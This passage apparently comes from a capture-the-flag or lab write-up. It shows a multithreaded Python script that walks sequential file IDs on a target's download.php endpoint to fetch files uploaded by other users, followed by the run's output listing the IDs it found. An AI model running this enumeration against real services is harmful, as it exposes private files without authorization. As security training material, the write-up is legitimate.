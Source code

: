 
When saving a file, there's a random ID assigned to the file that seems to be a 4 digit number. At the time I didn't know if it was always a 4 digit number (i.e. 0001 - 9999 or 1-9999), so I started with the simpler code and didn't need to try the other. Note that this is a bit more cumbersom code than normal just to get through the enumeraton faster. This could just as easily be done with a basic for loop and more patience. 

Enumerating them all yields as follows:


```python
import os
from concurrent.futures import ThreadPoolExecutor

os.makedirs('enumerated_files', exist_ok=True)

def fetch_and_save(i):
    download = file_session.get(f'http://file.{target}/download.php?id={i}&dl=true')
    if download.status_code == 200 and "File Not Found" not in download.text:
        print(f"Found file with id {i}:")
        with open(f'enumerated_files/id_{i}.txt', 'w') as f:
            f.write(download.text)
    if i % 500 == 0:
        print(f"Processed {i} files...")

with ThreadPoolExecutor(max_workers=8) as executor:
    executor.map(fetch_and_save, range(0, 9999))
```

    Processed 0 files...
    Found file with id 54:
    Found file with id 150:
    Processed 500 files...
    Processed 1000 files...
    Processed 1500 files...
    Processed 2000 files...
    Processed 2500 files...
    Found file with id 2885:
    Processed 3000 files...
    Processed 3500 files...
    Processed 4000 files...
    Processed 4500 files...
    Processed 5000 files...
    Processed 5500 files...
    Processed 6000 files...
    Processed 6500 files...
    Processed 7000 files...
    Processed 7500 files...
    Processed 8000 files...
    Processed 8500 files...
    Processed 9000 files...
    Processed 9500 files...


2885 is my uploaded file, the other two seem interesting.

